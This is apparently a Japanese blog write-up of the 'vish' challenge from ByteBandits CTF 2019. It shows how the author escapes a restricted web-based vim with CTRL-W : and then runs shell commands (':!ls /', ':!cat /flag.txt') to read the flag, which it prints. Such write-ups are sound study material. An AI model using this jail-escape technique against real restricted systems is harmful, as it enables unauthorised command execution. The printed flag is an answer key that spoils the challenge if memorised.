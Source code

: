 ```yaml
---
title: vish (ByteBandits CTF 2019)
date: 2019-04-13
tags: ["ByteBandits CTF 2019"]
categories: [CTF, misc]
---
```


{% asset_img problem.png %}

## 解説

とりあえず http://13.234.130.76:7003 にアクセスしてみる。

{% asset_img vim.png %}

最近使ったことがあるので `xterm.js` で `vim` のフロントエンドを作ってることはすぐにわかった。vim 系の問題は過去に何回かみたことがあって、基本的に無効化されたキー入力を突破してコマンドを実行する系だった。

今回の問題は `websockets` を使ってサーバーサイドで処理が行われているため、クライアントサイドをいじっても意味ない (たぶん)

とりあえず `vim` のマニュアル (日本語) を読み進めながら、1つずつ効果があるかどうか試していたところ [CTRL-W_:](https://vim-jp.org/vimdoc-ja/windows.html#CTRL-W_:) でコマンドが使えた。

あとは簡単で `:!ls /` でフラグっぽいのを探して

```
[No write since last change]
bin  boot  dev  etc  flag.txt  go  hello  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vim  vimrc

Press ENTER or type command to continue
```

`flag.txt` があったので、`:!cat /flag.txt` で終わり。

```
[No write since last change]
flag{bram_loves_jails}
```

## フラグ

`flag{bram_loves_jails}`

## 参考リソース

- [vimindex - Vim日本語ドキュメント](https://vim-jp.org/vimdoc-ja/vimindex.html)